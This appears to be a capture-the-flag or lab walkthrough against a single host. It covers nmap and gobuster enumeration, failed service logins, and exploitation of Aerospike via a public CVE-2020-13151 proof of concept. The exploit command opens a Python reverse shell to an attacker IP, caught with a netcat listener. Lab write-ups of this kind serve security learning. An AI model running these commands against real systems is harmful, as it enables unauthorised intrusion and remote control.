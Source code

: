 **Initial Nmap Scan:**
```
nmap 192.168.191.143 -oN dnmap
```
![[Pasted image 20240602182259.png]]In Initial scan we can see lot of open ports.

**Service and Script Scan:**
```
nmap -sC -sV -oN snmap 192.168.191.143
```
![[Pasted image 20240602182551.png]]
![[Pasted image 20240602182615.png]]
Now will enumerate each port one by one

**Port 21: FTP**
```
ftp 192.168.191.143
```
![[Pasted image 20240602183007.png]]
Tried Anonymous login and admin:admin, no luck. will move other ports.

**Port 80: Http**
![[Pasted image 20240602183156.png]]
We can see an apache page is running, I have checked exploits the apache version running (2.4.41), there is no exploit for the running version.

**Port 81: Http**
![[Pasted image 20240602183414.png]]
On port 81 there is we webpage powered by nginx and fedora.

**Port 3306: Mysql**
```
mysql -u root -h 192.168.191.143
mysql -u root -h 192.168.191.143 -p
mysql -u root -h 192.168.191.143 -ppassword
```
![[Pasted image 20240602183709.png]]
No luck with mysql, will move on.

**Port 5432: Psql**
```
psql -U postgres -p 5432 -h 192.168.191.143
```
![[Pasted image 20240602184106.png]]
We are not allowed to login from our kali.

**Directory Enumeration:**
Will use Gobuster on both http ports 80 and 81 for directory traversal.

**Using Gobuster on Port 80 and 81:**
```
gobuster dir -u http://192.168.191.143/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt

gobuster dir -u http://192.168.191.143:81/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster81.txt
```

![[Pasted image 20240602184703.png]]
From this listing, directory /sub and /api is interesting on port 80

![[Pasted image 20240602184830.png]]
on port 81, so far now interesting directories.

**Now will Traverse through /sub on port 80:**
```
gobuster dir -u http://192.168.191.143/sub/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster_sub.txt
```

![[Pasted image 20240602185403.png]]

**http://192.168.191.143/sub
![[Pasted image 20240602185635.png]]

**http://192.168.191.143/sub/page
![[Pasted image 20240602185732.png]]

**Gobuster for /api:**
```
gobuster dir -u http://192.168.191.143/api/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster_api.txt
```
![[Pasted image 20240602191034.png]]
At initial stage, there is no interesting directories, but i got it after some times.
![[Pasted image 20240602191226.png]]
So we have /api/heartbeat.php, /api/heartbeat.

**http://192.168.191.143/api/heartbeat
![[Pasted image 20240602191348.png]]

http://192.168.191.143/api/heartbeat.php
![[Pasted image 20240602191420.png]]

Same results for both listing, let's enumerate **Aerospike** service, because that the unique one.

Will try to get Initial foothold on the system with our findings. If We can't then will come back here again and dig further.

**Searching public exploit for Aerospike:**
![[Pasted image 20240602192213.png]]
Will choose 2nd one, because it has POC

**Link for the Exploit:https://github.com/b4ny4n/CVE-2020-13151
![[Pasted image 20240602192354.png]]
So we need all three programs to get a shell from the target.

**I have copied all three Programs to my local directory:**
![[Pasted image 20240602192615.png]]
**Lets run the Program According to the POC:https://b4ny4n.github.io/network-pentest/2020/08/01/cve-2020-13151-poc-aerospike.html
![[Pasted image 20240602192711.png]]

**Lets try now:**
```
python3 exp.py --ahost 192.168.191.143 --pythonshell --lhost 192.168.45.177 --lport 443
```
![[Pasted image 20240602192823.png]]
**On the same time i have started Netcat Listener on Port 443:**
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240602192938.png]]
Alright, We are into the machine Now....!



